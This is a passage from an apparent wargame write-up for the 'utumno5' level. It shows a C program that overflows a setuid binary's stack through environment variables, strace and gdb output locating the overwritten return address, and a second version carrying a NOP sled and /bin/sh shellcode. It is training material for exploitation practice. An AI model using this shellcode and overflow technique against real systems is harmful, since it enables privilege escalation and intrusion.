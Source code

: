 ```c
#include <unistd.h>

void main() {
    char *envp[] = {"", "", "", "", "", "", "", "", "", "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIII"};
    execve("/utumno/utumno5", NULL, envp);
}
```

```bash
utumno5@utumno:/tmp/ax$ strace ./code
execve("./code", ["./code"], [/* 20 vars */]) = 0
strace: [ Process PID=16264 runs in 32 bit mode. ]
brk(NULL)                               = 0x56558000

...[removed]...

fstat64(1, {st_mode=S_IFCHR|0620, st_rdev=makedev(136, 1), ...}) = 0
brk(NULL)                               = 0x804a000
brk(0x806b000)                          = 0x806b000
write(1, "Here we go - AAAABBBBCCCCDDDDEEE"..., 50Here we go - AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIII
) = 50
--- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x45454545} ---
+++ killed by SIGSEGV (core dumped) +++
Segmentation fault
```

Awesome, we overwrite the return address at EEEE. Let's add a shellcode in the 9th value and find a proper return value on the NOP sled.

```c
#include <unistd.h>

void main() {
    char *envp[] = {"", "", "", "", "", "", "", "", "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80", "AAAABBBBCCCCDDDDBBBB"};
    execve("/utumno/utumno5", NULL, envp);
}
```

```nasm
utumno5@utumno:/tmp/ax$ gdb -q ./code
Reading symbols from ./code...(no debugging symbols found)...done.
(gdb) set disassembly-flavor intel
(gdb) run
Starting program: /tmp/ax/code
process 16279 is executing new program: /utumno/utumno5
Here we go - AAAABBBBCCCCDDDDEEEE

Program received signal SIGSEGV, Segmentation fault.
0x45454545 in ?? ()
(gdb) x/3000x $esp-3000
0xffffd22c:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd23c:	0x00000000	0x00000000	0x00000000	0x00000000

...[removed]...

0xffffdf3c:	0xffffdf6b	0x0000001a	0x00000000	0x0000001f
0xffffdf4c:	0xffffdfe8	0x0000000f	0xffffdf7b	0x00000000
0xffffdf5c:	0x00000000	0x00000000	0x00000000	0xfb000000
0xffffdf6c:	0x5c1f90e5	0xa999cdf6	0x51d9db57	0x695fa607
0xffffdf7c:	0x00363836	0x00000000	0x00000000	0x90909000
0xffffdf8c:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffdf9c:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffdfac:	0x90909090	0x90909090	0x90909090	0x31909090
```